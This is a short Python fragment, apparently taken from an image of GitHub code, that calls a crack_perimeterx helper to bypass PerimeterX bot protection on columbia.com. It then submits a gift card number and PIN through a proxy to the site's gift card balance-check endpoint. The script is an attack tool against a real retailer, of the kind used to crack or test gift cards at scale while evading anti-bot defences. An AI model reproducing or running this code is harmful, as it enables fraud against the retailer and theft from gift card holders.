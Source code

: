 ```python
    }

    data = {
        'giftCertID': '8554515151515155454',
        'giftCertPin': '1541',
        'csrf_token': extra["csrf_token"]
    }

    return session.post(
        'https://www.columbia.com/on/demandware.store/Sites-Columbia_US-Site/en_US/GiftCard-CheckBalance',
        headers=headers,
        data=data,
    )


session, resp, extra = crack_perimeterx(
    USER_TOKEN,
    href='https://www.columbia.com/giftcards/',
    app_id='PXLkXIE7Oj',
    proxy=get_idea_proxy("hk"),
    parse_index=parse_index,
    verifiers=[
        checkbalance
    ]
)
print(resp.status_code, resp.text)
```
